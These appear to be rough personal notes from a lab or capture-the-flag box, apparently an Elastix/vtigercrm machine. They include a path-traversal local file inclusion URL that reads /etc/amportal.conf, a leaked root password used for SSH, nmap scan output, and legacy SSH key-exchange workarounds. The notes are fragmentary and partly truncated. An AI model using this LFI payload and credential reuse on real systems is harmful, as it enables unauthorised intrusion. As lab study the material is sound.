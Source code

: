 can see an elastic  username password things

at /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

we have an lfi

ssh root@10.10.10.7

Try the password jEhdIekWmdjE and Yep! Got an SSH session.

tarting Nmap 7.92 ( https://nmap.org ) at 2023-04-07 06:39 EDT
Nmap scan report for 10.129.93.244
Host is up (0.082s latency).
Not shown: 988 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4445/tcp  open  upnotifyp
10000/tcp open  snet-sensor-mgmt

nable to negotiate with 10.129.93.244 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1

ssh -o KexAlgorithms=diffie-hellman-group1-sha1 root@10.129.93.244                    

└─$ ssh -o KexAlgorithms=ssh-rsa root@10.129.93.244
Unsupported KEX algorithm "ssh-rsa"
command-line line 0: Bad SSH2 KexAlgorithms 'ssh-rsa'.
                                                                              
┌──(kali㉿kali)-[~/pen300]
└─$ ssh -o KexAlgorithms=ssh-dss root@10.129.93.244
Unsupported KEX algorithm "ssh-dss"
command-line line 0: Bad SSH2 KexAlgorithms 'ssh-dss'


